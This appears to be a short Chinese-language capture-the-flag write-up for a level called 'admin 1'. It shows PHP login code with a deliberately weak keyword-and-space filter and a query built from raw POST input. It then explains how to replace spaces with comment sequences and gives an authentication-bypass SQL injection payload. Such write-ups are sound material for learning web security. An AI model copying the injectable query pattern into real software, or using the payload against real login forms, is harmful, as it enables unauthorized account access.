 admin 1
===

```PHP
//WAF
function safe_filter($str)
{
    $strl = strtolower($str);
    if (strstr($strl, ' ') || strstr($strl, '1=1') || strstr($strl, "''") ||
        strstr($strl, 'union select') || strstr($strl, 'select ')
    ) {
        return '';
    }
    return str_replace("'", "\\'", $str);
}
// Injection Code
$sql = sprintf("SELECT * FROM `%s` WHERE `name` = '%s' AND `password` = '%s'",
        USER_TABLE,
        $_POST['name'],
        $_POST['password']
);
```
Admin1 與 Admin0 的差別僅有 WAF 增加過濾，並且把最重要的空白給過濾掉了，同時也無法使用 select 套餐。

空白可以藉由以下來3種方式來 bypass。
`--`、`/**/`、`;%00`

Payload
```
\'/**/or/**/1/**/=/**/1/**/limit/**/1,1/**/#
```

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)